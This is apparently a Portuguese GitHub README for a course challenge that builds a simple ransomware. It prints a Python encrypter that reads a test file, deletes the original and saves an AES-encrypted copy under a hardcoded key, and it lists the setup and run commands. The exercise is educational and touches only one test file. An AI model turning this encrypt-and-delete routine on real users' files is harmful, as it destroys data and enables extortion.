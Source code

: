 # Ransomware para criptografar arquivos

### Ferramentas

- Kali Linux
- Python
- vim

### Criando os códigos e arquivos

- Criar diretório e arquivos de código e texto
$ mkdir desafio-ransomware
$ touch encrypter.py
$ touch decrypter.py
$ touch teste.txt

- Criar o código do arquivo encrypter.py
$ vim encrypter.py

```python 
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
```

- Criar o código do arquivo decrypter.py
$ vim decrypter.py


- Criar o conteúdo do arquivo de texto
$ vim teste.txt


### Instalando biblioteca pyaes para execução do código
- Instalar a biblioteca pyaes
$ sudo apt install python3-pyaes


### Criptografando o arquivo
- Executar o comandos
$ python3 encrypter.py
$ cat teste.txt


### Descriptografando o arquivo
- Executar o comandos
$ python3 decrypter.py
$ cat teste.txt
